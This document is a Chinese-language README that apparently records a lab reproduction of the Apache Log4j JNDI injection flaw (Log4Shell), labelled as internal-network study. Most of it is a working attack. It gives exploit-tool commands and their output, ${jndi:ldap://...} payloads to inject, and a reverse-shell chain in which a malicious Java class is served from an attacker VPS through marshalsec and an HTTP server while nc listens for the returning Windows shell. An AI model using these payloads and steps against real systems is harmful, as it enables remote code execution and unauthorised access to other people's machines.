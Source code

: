 # 以下都是内网学习打的，仅供学习
## Apache-Log4j的几种复现方式
## 1、使用./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
vps IP 假设为 10.10.10.10
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 10.10.10.10`
```
[root@VM_0_16_centos ~]# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping xx.24b5010c.dns.1433.eu.org" -A 10.10.10.10
[ADDRESS] >> 10.10.10.109
[COMMAND] >> ping xx.24b5010c.dns.1433.eu.org
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.10.109:1099/1ovanh
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.10.109:1099/kavkt9
ldap://10.10.10.109:1389/kavkt9
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.10.109:1099/m5m8wo
ldap://10.10.10.109:1389/m5m8wo
```
然后fuzz `${jndi:ldap://10.10.10.10:1389/kavkt9}` 或者 `${jndi:ldap://10.10.10.109:1389/m5m8wo} `
![](img/2.png)

## 2、反弹shell
试了几个windows的，都是无回显，执行命令磕磕绊绊，最后还是直接反弹了原生shell
我测试了一台windows，使用./src/ExecTemplateJDK7.java 修改里面的host和port为要反弹的地址(如果是linux，使用./src/linux.java就行了,其实就是cmd.exe改成/bin/bash)

然后javac ExecTemplateJDK7.java,生成ExecTemplateJDK7.class


然后在vps上开http服务`python3 -m http.server 9092`,以及监听端口`nc -l 9091`


然后同样在vps上 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://10.10.10.10:9092/#ExecTemplateJDK7 1389`


最后fuzz ${jndi:ldap://10.10.10.10:1389}
![](img/2.png)

效果是jdni上收到请求消息
`Send LDAP reference result for dd redirecting to http://10.10.10.10:9092/ExecTemplateJDK7.class`


httpserver请求 `[10/Dec/2021 10:04:39] "GET /ExecTemplateJDK7.class HTTP/1.1" 200`


nc收到windows-shell
![](img/1.png)

# 以上都是内网学习打的，仅供学习
